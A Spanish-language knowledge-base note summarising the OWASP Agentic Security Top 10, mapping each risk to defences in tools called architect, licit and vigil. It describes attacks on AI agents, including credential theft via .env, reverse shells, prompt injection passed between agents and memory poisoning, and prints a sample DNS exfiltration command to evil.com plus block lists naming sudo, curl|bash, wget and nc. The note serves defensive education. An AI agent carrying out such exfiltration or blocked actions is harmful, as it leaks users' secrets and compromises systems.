



# OWASP Agentic Security Top 10

> [!abstract] Resumen
> El OWASP Agentic Security Top 10 identifica los ==10 riesgos de seguridad más críticos específicos de sistemas de agentes de IA== (ASI01-ASI10). A diferencia del [[owasp-llm-top10|OWASP LLM Top 10]] que se centra en el modelo, este estándar aborda los riesgos de ==agentes autónomos con acceso a herramientas, datos y capacidad de acción==. [[licit-overview|licit]] evalúa conformidad con cada riesgo, y [[architect-overview|architect]] implementa mitigaciones directas para la mayoría de ellos.
> ^resumen

---

## Contexto: de LLMs a agentes

Los agentes de IA representan una evolución fundamental sobre los LLMs simples. Mientras un LLM procesa texto, un agente:
- ==Ejecuta acciones== en el mundo real (archivos, comandos, APIs)
- ==Toma decisiones== autónomas sobre qué herramientas usar
- ==Persiste estado== entre interacciones
- ==Se comunica== con otros agentes



> [!danger] La diferencia clave
> Un LLM vulnerable puede generar texto dañino. Un ==agente vulnerable puede ejecutar acciones dañinas== en sistemas reales: borrar archivos, exfiltrar datos, comprometer infraestructura.

---

## ASI01: Privilege Escalation and Unauthorized Actions

### Descripción

Los agentes pueden ==escalar privilegios más allá de los previstos== mediante manipulación de prompts, explotación de herramientas, o aprovechamiento de confianza implícita entre componentes.

### Escenarios de ataque

> [!example] Escenario: Escalación via tool chaining
> 1. El agente tiene permiso para leer archivos de configuración
> 2. Lee `.env` que contiene credenciales de admin
> 3. Usa las credenciales para acceder a APIs privilegiadas
> 4. Ejecuta acciones no autorizadas como admin

### Mitigaciones con architect

> [!success] Capas de defensa de architect
> - **sensitive_files**: `.env`, `*.pem`, `*.key` bloqueados por `check_file_access`
> - **command_blocklist**: `sudo`, `chmod 777`, `su` bloqueados
> - **confirmation_modes**: `confirm-sensitive` para operaciones privilegiadas
> - **validate_path**: previene acceso fuera del directorio de trabajo

Detalle en [[trust-boundaries]] y [[sandboxing-agentes]].

---

## ASI02: Tool and Function Misuse

### Descripción

Los agentes pueden ==abusar de herramientas legítimas para fines maliciosos==, usando funcionalidades previstas de formas no previstas.

### Ejemplos

| Herramienta legítima | Uso malicioso | Detección |
|---------------------|---------------|-----------|
| `web_search` | Exfiltrar datos en queries | Output monitoring |
| `file_write` | Escribir scripts maliciosos | ==check_file_access== |
| `execute_command` | Reverse shell | ==command_blocklist== |
| `send_email` | Spam, phishing | Rate limiting |
| `api_call` | DDoS a servicios externos | Network policies |

> [!warning] El problema del "uso dual"
> Muchas herramientas tienen usos legítimos e ilegítimos. Un agente con acceso a `curl` puede descargar documentación (legítimo) o exfiltrar datos (malicioso). La intención no es verificable por la herramienta.



---

## ASI03: Agent Identity and Impersonation

### Descripción

En sistemas multi-agente, un agente puede ==suplantar la identidad de otro agente== para obtener acceso a recursos o capacidades no autorizadas.

> [!info] Riesgo en sistemas multi-agente
> Si el agente A solicita al agente B que ejecute una acción haciéndose pasar por un agente privilegiado C, y no hay verificación de identidad, se produce una suplantación.

### Mitigaciones

- Autenticación mutua entre agentes ([[zero-trust-ai]])
- Tokens de sesión firmados criptográficamente
- [[licit-overview|licit]] provenance tracking para verificar origen de solicitudes
- Registro de identidad de cada agente en cada acción

---

## ASI04: Uncontrolled Agentic Behavior

### Descripción

Los agentes pueden ==exhibir comportamiento no previsto o incontrolable==, incluyendo loops infinitos, escalación de objetivos, o acciones emergentes no programadas.

> [!danger] Riesgo de autonomía descontrolada
> Un agente con el objetivo "optimizar rendimiento del servidor" podría decidir eliminar servicios no críticos, modificar configuraciones de red, o desactivar logging para "ahorrar recursos".

### Kill switch y controles

> [!tip] Mecanismos de control
> - **Timeout por tarea**: limitar tiempo de ejecución de cada agente
> - **Límite de tool calls**: máximo de herramientas ejecutadas por sesión
> - **Budget de tokens**: límite de tokens consumidos por agente
> - **architect `check_edit_limits`**: limita archivos y líneas modificadas por sesión
> - **Human-in-the-loop**: confirmación humana para acciones irreversibles

---

## ASI05: Excessive Autonomy in Multi-Agent Systems

### Descripción

En sistemas multi-agente, la ==delegación de tareas entre agentes puede resultar en acumulación de permisos== o ejecución de acciones que ningún agente individual debería poder realizar.

> [!example] Escenario: Privilege accumulation
> - Agente A (permisos: leer archivos) delega a Agente B (permisos: ejecutar comandos)
> - La combinación permite leer archivos sensibles y ejecutarlos como scripts
> - Ningún agente tiene ambos permisos, pero la delegación los combina

### Mitigaciones

- Cada agente mantiene sus propios permisos, no hereda los del delegador
- Logs de delegación para auditoría
- [[architect-overview|architect]] `allowed_tools` por agente, no transferibles
- [[licit-overview|licit]] evalúa cadenas de delegación

---

## ASI06: Insecure Communication Between Agents

### Descripción

Las comunicaciones entre agentes pueden ser ==interceptadas, manipuladas o inyectadas== si no se protegen adecuadamente.

### Vectores de ataque



> [!success] Defensa: Zero Trust
> - mTLS entre componentes ([[zero-trust-ai]])
> - Mensajes firmados criptográficamente
> - Validación de schema en cada mensaje
> - [[licit-overview|licit]] cryptographic signing para trazabilidad

---

## ASI07: Improper Output Handling from Agents

### Descripción

La salida de un agente puede ser ==usada como entrada por otro agente o sistema sin sanitización==, propagando instrucciones maliciosas o datos corruptos.

> [!warning] Cadena de contaminación
> ```
> Usuario → [prompt injection] → Agente A → [output contaminado] → Agente B → [acción maliciosa]
> ```
> El agente A procesa el prompt injection y genera output que contiene instrucciones maliciosas que el agente B ejecuta.

### Mitigaciones

- Tratar todo output de agente como ==untrusted input==
- Validación de schema entre agentes
- [[vigil-overview|vigil]] escaneo de código generado por agentes
- Filtrado de instrucciones en output

---

## ASI08: Memory and Context Manipulation

### Descripción

Los agentes con memoria persistente pueden ser víctimas de ==envenenamiento de contexto==: un atacante inserta información falsa en la memoria que influencia decisiones futuras.

> [!danger] Escenarios
> - Inserción de "hechos falsos" en la memoria a largo plazo del agente
> - Manipulación del historial de conversación para alterar comportamiento
> - Inyección en RAG: documentos maliciosos en la base de conocimiento

### Defensa

> [!tip] Protección de memoria
> - Validación de fuentes antes de almacenar en memoria
> - Expiración de memorias con TTL (*Time To Live*)
> - Separación de memoria por nivel de confianza
> - Auditoría periódica de contenido en memoria

---

## ASI09: Data Leakage Through Agent Actions

### Descripción

Los agentes pueden ==filtrar información sensible a través de sus acciones==: queries de búsqueda, nombres de archivo, parámetros de API, o contenido generado.

Detalle completo en [[data-exfiltration-agents]].

> [!example] Canal encubierto via DNS
> ```
> El agente ejecuta: nslookup secret-data-encoded.evil.com
> Los datos sensibles viajan como subdominio en la query DNS
> ```

### Mitigaciones con architect

- **command_blocklist**: bloquea `curl|bash`, `wget`, `nc`
- **validate_path**: previene escritura fuera del sandbox
- **Network isolation**: agentes sin acceso directo a internet
- **Output monitoring**: análisis de tool calls para detectar patrones de exfiltración

---

## ASI10: Lack of Traceability and Auditability

### Descripción

La ==falta de trazabilidad en las acciones de agentes== impide la detección de incidentes, la investigación forense, y el cumplimiento regulatorio.

> [!info] Requisitos de trazabilidad
> - Cada acción del agente debe ser registrada con timestamp, identidad y contexto
> - Los logs deben ser inmutables (append-only)
> - Debe ser posible reconstruir la cadena completa de decisiones
> - [[licit-overview|licit]] provenance tracking proporciona esta capacidad

### Mapeo a regulaciones

| Regulación | Requisito de trazabilidad | Componente del ecosistema |
|------------|--------------------------|---------------------------|
| ==EU AI Act== | Logging de sistemas de alto riesgo | [[licit-overview\|licit]] |
| GDPR | Explicabilidad de decisiones automatizadas | [[licit-overview\|licit]] |
| SOC 2 | Audit trail | Logging infra |
| ISO 27001 | Registro de eventos de seguridad | SIEM + [[vigil-overview\|vigil]] |

---

## Evaluación de conformidad con licit

[[licit-overview|licit]] evalúa la conformidad de un sistema de agentes con cada uno de los 10 riesgos:

> [!example]- Reporte de evaluación de licit
> ```json
> {
>   "framework": "OWASP Agentic Security Top 10",
>   "evaluation_date": "2025-06-01",
>   "system": "architect-agent-v2",
>   "results": {
>     "ASI01": {"status": "compliant", "score": 9, "notes": "validate_path + blocklist"},
>     "ASI02": {"status": "compliant", "score": 8, "notes": "check_command active"},
>     "ASI03": {"status": "partial", "score": 5, "notes": "No mTLS between agents"},
>     "ASI04": {"status": "compliant", "score": 8, "notes": "check_edit_limits active"},
>     "ASI05": {"status": "partial", "score": 6, "notes": "No delegation tracking"},
>     "ASI06": {"status": "non_compliant", "score": 3, "notes": "No encrypted comms"},
>     "ASI07": {"status": "compliant", "score": 7, "notes": "vigil output scanning"},
>     "ASI08": {"status": "partial", "score": 5, "notes": "No memory validation"},
>     "ASI09": {"status": "compliant", "score": 8, "notes": "Network isolation + blocklist"},
>     "ASI10": {"status": "compliant", "score": 9, "notes": "Full provenance tracking"}
>   },
>   "overall_score": 6.8,
>   "recommendation": "Address ASI06 (encrypted comms) as priority"
> }
> ```

---

## Relación con el ecosistema

- **[[intake-overview]]**: intake contribuye a la mitigación de ASI07 (Improper Output Handling) al validar y normalizar las entradas antes de que lleguen a los agentes, reduciendo la superficie de ataque para inyecciones que podrían propagarse entre agentes.
- **[[architect-overview]]**: architect es el componente que implementa más mitigaciones directas: ASI01 (validate_path, blocklist), ASI02 (check_command), ASI04 (check_edit_limits), ASI05 (allowed_tools), ASI08 (confirmation modes), ASI09 (path sandboxing).
- **[[vigil-overview]]**: vigil contribuye a ASI07 escaneando el output de agentes que genera código, detectando patrones de vulnerabilidad antes de que el código sea ejecutado o almacenado, con sus 26 reglas deterministas y output SARIF.
- **[[licit-overview]]**: licit es el evaluador central de conformidad con este framework. Evalúa cada ASI, genera reportes de cumplimiento, implementa provenance tracking (ASI10) y firma criptográfica (ASI03, ASI06).

---

## Enlaces y referencias

> [!quote]- Bibliografía
> - OWASP. (2025). "OWASP Agentic Security Initiative Top 10." https://owasp.org/www-project-agentic-security/
> - Wang, L. et al. (2024). "A Survey on Large Language Model based Autonomous Agents." Frontiers of CS.
> - Ruan, Y. et al. (2024). "Identifying the Risks of LM Agents with an LM-Emulated Sandbox." ICLR 2024.
> - Xi, Z. et al. (2023). "The Rise and Potential of Large Language Model Based Agents." arXiv.
> - Tran, K. (2024). "Security Considerations for AI Agent Systems." USENIX Security.

[^1]: El OWASP Agentic Security Top 10 fue publicado en 2025 como complemento al LLM Top 10, reconociendo que los agentes presentan riesgos fundamentalmente diferentes a los LLMs simples.
